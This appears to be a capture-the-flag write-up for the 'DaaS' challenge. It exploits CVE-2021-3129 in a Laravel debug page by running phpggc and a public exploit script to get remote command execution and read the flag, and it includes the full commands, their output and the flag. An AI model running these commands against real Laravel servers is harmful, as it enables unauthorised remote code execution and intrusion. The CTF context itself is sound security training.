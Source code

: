 # DaaS
## Description
We suspect this server holds valuable information that would further benefit our cause, but we've hit a dead end with this debug page running on a known framework called Laravel. Surely we couldn't exploit this further.. right?

## Methodology
This challenge wasn't provided with a source code but from the description we can take a hint that we are dealing with a `debug` page and `laravel` framework. The website also provides the `laravel` version.

`Laravel v8.35.1 (PHP v7.4.16) `

This version is vulnerable to `CVE-2021-3129` (`RCE`). Exploit for this vuln is provided in [laravel-exploit](https://github.com/ambionics/laravel-exploits).

## Exploit
We are going to list files in `/` directory

```sh
php -d'phar.readonly=0' ~/Documents/tools/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "ls /"
laravel-exploits/laravel-ignition-rce.py http://138.68.148.149:31636/ /tmp/exploit.phar
```

```
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
bin
boot
dev
entrypoint.sh
etc
flagmfBBE
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
www
--------------------------
+ Logs cleared
```

There is a flag

```sh
php -d'phar.readonly=0' ~/Documents/tools/phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "cat /flagmfBBE"
laravel-exploits/laravel-ignition-rce.py http://138.68.148.149:31636/ /tmp/exploit.phar
```

```
+ Log file: /www/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
+ Phar deserialized
--------------------------
CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}
--------------------------
+ Logs cleared
```

## Flag
**CHTB{wh3n_7h3_d3bu663r_7urn5_4641n57_7h3_d3bu6633}**